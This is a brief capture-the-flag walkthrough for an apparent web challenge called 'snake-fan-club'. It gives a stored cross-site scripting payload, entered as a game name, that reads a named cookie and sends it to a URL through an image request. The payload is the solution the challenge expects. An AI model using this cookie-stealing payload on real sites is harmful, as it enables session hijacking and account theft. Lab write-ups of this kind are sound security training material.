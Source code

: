 Open <https://snake-fan-club.chall.necst.it> and create an account.

Then create a new game with the given name :
```js
<script>const m=document.cookie.match(/[cookie]=([^;]+)/)[1];if(m){new Image().src='https://chall.necst.it/challenges/snake-fan-club/verify/<number>/'+encodeURIComponent(m);}</script>
```

Where `[cookie]` is the given cookie name (e.g., `NdefZm`) and `<number>` is the given number in the GET request (e.g `288`).

Finally, the answer to submit is the URL of the game you created.